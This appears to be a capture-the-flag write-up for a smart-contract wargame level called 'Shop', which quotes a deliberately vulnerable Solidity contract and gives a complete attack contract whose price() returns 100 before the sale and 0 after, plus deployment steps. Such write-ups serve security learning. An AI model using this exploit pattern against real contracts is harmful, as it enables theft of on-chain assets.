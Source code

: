 # Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
The contract, `Shop`, allows an external contract implementing the `Buyer` interface to buy an item if the buyer's price meets or exceeds the item's price and the item is not already sold.

- **`price`**: Initial price set to 100.
- **`isSold`**: Tracks if the item is sold.
- **`buy()` function**: Checks if the buyer's `price()` (from the external `Buyer` contract) is equal to or higher than the current price and if the item is not sold. If true, the item is marked as sold, and the price is updated to the buyer's price.

The contract is intended for interaction with a `Buyer` contract that returns a price.

Let me explain the condition again

```sol
if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
```
For the first condition to evaluate as true, the initial call to the `price()` function must return a value greater than or equal to the current `price`. Afterward, the function is called again within the block, and the `price` is updated accordingly.

So summary of what we need to do is 

1. set `isSold` to true
2. set `price` < 100

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack is Buyer{
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function buy() public {
        buyer.buy();
    }

    function price() public view override returns(uint) { 
        if (buyer.isSold()) {
            return 0;
        } else {
            return 100;
        }

        // the if statement can be written in a shorter form
        // return buyer.isSold() ? 0 :100;
    }
}


}
```
Explaining this attack contract

- **`buyer`**: An instance of the `Shop` contract, passed in during deployment.
- **`buy()`**: Calls the `buy()` function in the `Shop` contract.
- **`price()`**: Overrides the `price()` function from the `Buyer` interface. It returns `100` before the item is sold and `0` after the item is sold. This allows it to pass the condition to buy the item by pretending to match the price (100), then once `isSold` is true, it returns `0` to finalize the transaction at a lower price.


Lets deploy the attack contract using forge

![image](https://github.com/user-attachments/assets/855d39bb-f7ed-4c31-8725-27afc906aa51)

We've successfully compiled the attack contract and we got the contract address to be `0xb1b1d2b475d99c93d6D1c7AD1303B3C3a1BF134f`

Lets start out by calling the `price()` function in the attack contract

![image](https://github.com/user-attachments/assets/c9cc99f1-8ee7-4cfd-8898-3810f1d7b562)

We have the value of `100`

To pass the if conditional statement, we'll call the `buy()` function

![image](https://github.com/user-attachments/assets/059061ca-7da0-4004-9f70-565e56dcbaea)

Now, lets call the `price()` function again

![image](https://github.com/user-attachments/assets/17e15167-c75a-479b-91bf-b012223d9a4a)

Our price already reset to zero

Submitting the instance

![image](https://github.com/user-attachments/assets/9fb3c454-c19b-4662-9014-fd5990399aac)

We have successfully completed this level

-------------------------

Till Next Time :xD























